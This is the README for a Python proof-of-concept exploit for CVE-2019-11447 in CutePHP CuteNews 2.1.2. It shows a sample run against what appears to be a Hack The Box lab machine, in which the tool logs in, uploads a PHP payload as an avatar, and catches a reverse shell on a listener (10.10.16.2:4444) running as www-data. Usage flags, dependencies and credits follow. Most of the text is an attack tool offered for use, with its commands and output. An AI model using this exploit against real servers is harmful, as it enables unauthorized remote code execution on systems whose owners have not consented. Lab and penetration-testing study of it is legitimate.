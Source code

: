# CVE-2019-11447
## CutePHP Cute News 2.1.2 RCE PoC

**Target :** 2.1.2

This PoC script is based on a simple implementation of the original exploit by **BobbySox**. The original exploit is an MSF module by **Akuss**.

This script needs the target ip address or domain along with credentials and it will automatically login, upload payload, trigger it and catch the reverse shell.

```
python cve-2019-11447.py -t 10.10.10.206 -u twh -p p4ssw0rd -lh 10.10.16.2 -lp 4444 -f shell

--------------------------------------
--- CVE-2019-11447 -------------------
--- CuteNews Arbitrary File Upload ---
--- CutePHP CuteNews 2.1.2 -----------
--------------------------------------

[>] Found By : Akkus       [ https://twitter.com/ehakkus     ]
[>] PoC By   : thewhiteh4t [ https://twitter.com/thewhiteh4t ]

[>] Target   : http://10.10.10.206/CuteNews/index.php
[>] Username : twh
[>] Password : p4ssw0rd

[!] Logging in...
[+] Logged In!
[+] Loading Profile...
[+] Searching Signatures...
[!] Uploading Payload...
[+] Loading Profile...
[+] Searching Avatar URL...
[*] URL : http://passage.htb/CuteNews/uploads/avatar_twh_shell.php
[!] Payload will trigger in 5 seconds...
[!] Starting Listner...
[+] Trying to bind to :: on port 4444: Done
[+] Waiting for connections on :::4444: Got connection from ::ffff:10.10.10.206 on port 35196
[*] Switching to interactive mode
bash: cannot set terminal process group (1656): Inappropriate ioctl for device
bash: no job control in this shell
www-data@passage:/var/www/html/CuteNews/uploads$ $ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@passage:/var/www/html/CuteNews/uploads$ $
```

## Dependencies

```
pip3 install requests bs4 pwntools
```

## Usage

```
python cve-2019-11447.py -h
usage: cve-2019-11447.py [-h] [-t TARGET] [-u UNAME] [-p PASSW] [-lh LHOST] [-lp LPORT] [-f FILE]

optional arguments:
  -h, --help                    show this help message and exit
  -t TARGET, --target TARGET    Target IP address or domain
  -u UNAME, --uname UNAME       Username
  -p PASSW, --passw PASSW       Password
  -lh LHOST, --lhost LHOST      Listener IP address
  -lp LPORT, --lport LPORT      Listener Port
  -f FILE, --file FILE          Filename for payload WITHOUT extension
```

## Credits

* Thank you **Akuss** for discovering this vulnerability
    * https://www.exploit-db.com/exploits/46698/

* Thank you **BobbySox** for implementing it in a simple way
    * https://github.com/kyle41111/CuteScript